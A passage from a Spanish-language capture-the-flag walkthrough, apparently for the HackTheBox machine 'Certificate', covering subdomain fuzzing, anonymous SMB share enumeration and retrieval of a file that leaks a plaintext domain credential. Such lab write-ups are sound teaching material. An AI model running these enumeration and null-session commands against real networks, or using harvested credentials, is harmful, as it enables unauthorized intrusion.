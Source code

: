 ### 3.4 Búsqueda de Subdominios

```bash
# Usando wfuzz
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
    -H "Host: FUZZ.certificate.htb" \
    --hc 404 --ssl https://10.10.11.71

# Usando gobuster
gobuster vhost -u https://certificate.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -k
```

**Nota**: No se encontraron subdominios adicionales en esta etapa.

---

## 4. Acceso Inicial - SMB y Credenciales

### 4.1 Enumeración SMB Sin Credenciales

```bash
# Enumerar shares disponibles
smbclient -L //10.10.11.71 -N
smbmap -H 10.10.11.71
smbmap -H 10.10.11.71 -u guest

# Enum4linux para información detallada
enum4linux 10.10.11.71

# Crackmapexec para verificación rápida
crackmapexec smb 10.10.11.71 -u '' -p '' --shares
crackmapexec smb 10.10.11.71 -u 'guest' -p '' --shares
```

### 4.2 Acceso al Share "Development"

```bash
# Conectarse al share Development
smbclient //10.10.11.71/Development -N

# Comandos dentro de smbclient:
smb: \> ls
smb: \> get LICENSE
smb: \> exit

# Ver el contenido del archivo
cat LICENSE
```

**Contenido importante del archivo LICENSE:**
```
[...]
Additionally the responsible administrator is Lion.Sk

Qualys scan results
-------------------
Host: DC01.certificate.htb
User: Lion.Sk, password: !QAZ2wsx
[...]
```
